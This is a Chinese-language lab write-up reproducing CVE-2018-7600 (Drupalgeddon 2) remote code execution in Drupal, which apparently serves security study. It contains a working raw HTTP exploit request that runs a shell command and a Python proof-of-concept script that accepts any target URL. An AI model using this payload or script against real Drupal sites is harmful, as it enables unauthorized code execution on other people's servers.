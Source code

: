 # CVE-2018-7600 Drupal Drupalgeddon 2 远程代码执行漏洞

### 一、漏洞简介

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

### 二、漏洞影响

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

### 三、复现过程

漏洞环境

执行如下命令启动drupal 8.5.0的环境：


```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：


```bash
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

成功执行代码，这个代码最终执行了id命令：

![](images/15889987534039.png)


exploit.py


```python
#!/usr/bin/env python3
import sys
import requests

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)
# set verify = False if your proxy certificate is self signed
# remember to set proxies both for http and https
# 
# example:
# proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
# verify = False
proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
if check.status_code != 200:
  sys.exit("Not exploitable")
print ('\nCheck: '+target+'hello.txt')
```

参考链接

https://vulhub.org/#/environments/drupal/CVE-2018-7600/